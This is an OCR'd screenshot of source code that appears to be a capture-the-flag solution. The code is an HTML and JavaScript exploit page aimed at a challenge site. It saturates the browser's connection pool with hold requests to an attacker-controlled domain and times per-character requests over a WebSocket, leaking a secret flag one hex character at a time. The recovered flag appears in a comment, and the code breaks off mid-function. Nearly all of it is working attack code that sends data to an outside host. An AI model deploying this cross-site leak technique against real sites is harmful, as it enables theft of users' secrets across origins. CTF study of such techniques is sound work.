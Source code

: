 ```html
    <button onclick="run()">Step 3: queue hex + hashchange & detect</button>
    <button onclick="autoRun()">Auto Run Full Cycle</button>
</div>
<pre id="log"></pre>

<script>
    const VICTIM_URL = "http://challenge-01.babelo.xyz";
    const BASE = "0xalessandr0.me";
    const ORACLE = `http://${BASE}`;        // :80 implied
    const HEX_CHARS = '0123456789abcdef';   // 16 hex characters

    // Global flag variable to store discovered characters
    let flag = '666c61677b676a326534737972316768743f7d';
    //flag{gj2e4syr1ght?}

    let ws, w, round = 0, fuseAt = 0;
    // store earliest arrival per character (server timestamp, ms)
    const times = new Map();

    const Z = ms => new Promise(r => setTimeout(r, ms));
    const L = (...a) => document.querySelector('#log').append(a.join(' ') + '\n');

    function wsEnsure() {
        return new Promise((res, rej) => {
            if (ws && ws.readyState === WebSocket.OPEN) return res();
            ws = new WebSocket(`ws://${BASE}/ws`);
            ws.onopen = res;
            ws.onerror = rej;
            ws.onmessage = e => {
                try {
                    const m = JSON.parse(e.data);
                    if (m.type === 'char' && +m.round === round) {
                        // keep earliest arrival for each character
                        if (!times.has(m.char)) times.set(m.char, m.t);
                    }
                } catch { }
            };
        });
    }

    function holdLong() {
        // vary subdomain to avoid ~6-per-host H1 limits
        const sub = Math.random().toString(36).slice(2, 8);
        fetch(`http://${sub}.${BASE}/hold?ms=60000`, { mode: 'no-cors', cache: 'no-store' }).catch(() => { });
    }

    function holdFuse(ms) {
        fuseAt = performance.now() + ms;
        const sub = 'f' + Math.random().toString(36).slice(2, 8);
        fetch(`http://${sub}.${BASE}/hold-fuse?fuse=${ms}`, { mode: 'no-cors', cache: 'no-store' }).catch(() => { });
    }

    function queueChar(c) {
        fetch(`http://${flag}${c}.${BASE}/char/${round}/${c}`, { mode: 'no-cors', cache: 'no-store' }).catch(() => { });
    }

    function triggerRemote() {
        if (!w || w.closed) w = open(VICTIM_URL);
        let hex = (Math.random() + 1).toString(36).substring(7);

```